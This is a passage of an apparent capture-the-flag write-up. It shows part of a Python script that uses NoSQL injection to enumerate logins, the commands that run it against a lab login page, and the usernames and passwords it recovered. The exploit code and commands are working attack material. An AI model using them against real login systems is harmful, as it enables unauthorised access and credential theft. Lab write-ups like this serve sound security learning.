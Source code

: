 ```python
        if not found_char:
            break

    print(Fore.GREEN + para1 + " found: "  + userpass)
    finalout +=  userpass + "\n"

if finalout != "":
    print("\n" + str(count) + " " + para1 + "(s) found:")
    print(Fore.RED + finalout)
else:
    print(Fore.RED + "No " + para1 + " found")
```

- Enumerating all Usernames.

```shell
python nosqli-user-pass-enum.py -u http://admin:Y3tiStarCur\!ouspassword\=admin@10.10.34.245:50628/login.php -up username -pp password -m POST -ep username
```

```
Blizzardson
Frostbite
Frosteau
Frostington
Frostopoulos
Frostova
Grinchenko
Grinchowski
Iciclevich
Northpolinsky
Scroogestein
Sleighburn
Slushinski
Snowbacca
Snowballer
Snownandez
Tinselova
Tinseltooth
```
{: file='Username List'}

- Enumerating all Passwords.

```shell
python nosqli-user-pass-enum.py -u http://admin:Y3tiStarCur\!ouspassword\=admin@10.10.34.245:50628/login.php -up username -pp password -m POST -ep password
```

```
6Ne2HYXUovEIVOEQg2US
7yIcnHu8HC6QCH1MCfHS
advEpXUBKt3bZjk3aHLR
h1y6zpVTOwGYoB95aRnk
jlXUuZKIeCONQQIe92GZ
rCwBuLJPNzmRGExQucTC
tANd8qZ93sFHUBrJhdQj
uwx395sm4GpVfqQ4dUDI
E33v0lTuUVa1ct4sSed1
F6Ymdyzx9C1QeNOcU7FD
HoHoHacked
JZwpMOTmDvVYDq3uSb3t
NlJt6HBZBG3olEphq8gr
ROpPXouppjXNf2pmmT0Q
UZbIt6L41BmLeQJF0gAR
WmLP5OZDiLos16Ie1owB
```